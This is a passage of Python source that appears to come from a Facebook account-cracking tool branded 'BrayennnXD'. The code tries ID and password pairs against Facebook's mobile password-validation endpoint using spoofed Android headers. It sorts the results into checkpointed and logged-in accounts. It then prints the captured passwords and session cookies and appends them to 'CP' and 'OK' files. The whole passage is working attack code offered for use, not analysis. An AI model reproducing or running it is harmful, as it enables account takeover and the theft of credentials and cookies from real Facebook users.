                          p = ses.get('https://mbasic.facebook.com/login.php?skip_api_login=1&api_key=141595129234543&kid_directed_site=0&app_id=141595129234543&signed_next=1&next=https%3A%2F%2Fm.facebook.com%2Fv5.0%2Fdialog%2Foauth%3Fclient_id%3D141595129234543%26redirect_uri%3Dhttps%253A%252F%252Fibispaint.com%252Flogin.jsp%26display%3Dpopup%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3De8184574-7e8f-41f3-b6d5-47a6c13f68fd%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fibispaint.com%2Flogin.jsp%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%23_%3D_&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr') 
                         dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://developers.facebook.com/tools/debug/accesstoken/","flow":"login_no_pin","pass":pw,} 
                         koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ]) 
                         koki+=' m_pixel_ratio=2.625; wd=412x756' 
                         heade={'Host': 'mbasic.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://m.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'} 
                         po = ses.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,allow_redirects=False) 
                         if "checkpoint" in po.cookies.get_dict().keys(): 
                                 if 'no' in gabriel: 
                                         cp+=1 
                                         print('\n') 
                                         statuscp = f'[•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] USERAGENT : {ua} ' 
                                         statuscp1 = nel(statuscp, width=90, style='bold yellow', title='BrayennnXD-CP') 
                                         cetak(statuscp1) 
                                         open('CP/'+cpc,'a').write(idf+'|'+pw+'\n') 
                                         akun.append(idf+'|'+pw) 
                                         break 
                                 elif 'ya' in gabriel: 
                                         cp+=1 
                                         print('\n') 
                                         statuscp = f'[•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] USERAGENT : {ua} ' 
                                         statuscp1 = nel(statuscp, width=90, style='bold yellow', title='BrayennnXD-CP') 
                                         cetak(statuscp1) 
                                         open('CP/'+cpc,'a').write(idf+'|'+pw+'\n') 
                                         akun.append(idf+'|'+pw) 
                                         ceker(idf,pw) 
                                         break 
                         elif "c_user" in ses.cookies.get_dict().keys(): 
                                 if 'no' in taplikasi: 
                                         ok+=1 
                                         coki=po.cookies.get_dict() 
                                         kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ]) 
                                         print('\n') 
                                         statusok = f'[•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] COOKIES  : {kuki}' 
                                         statusok1 = nel(statusok, width=90, style='bold green', title='BrayennnXD-OK') 
                                         cetak(statusok1) 
                                         open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n') 
                                         break 
                                 elif 'ya' in taplikasi: 
                                         ok+=1 
                                         coki=po.cookies.get_dict() 
                                         kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ]) 
                                         print('\n') 
                                         statusok = f'[•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] COOKIES  : {kuki}' 
                                         statusok1 = nel(statusok, width=90, style='bold green', title='BrayennnXD-OK') 
                                         cetak(statusok1) 
                                         open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n') 
                                         cek_apk(kuki) 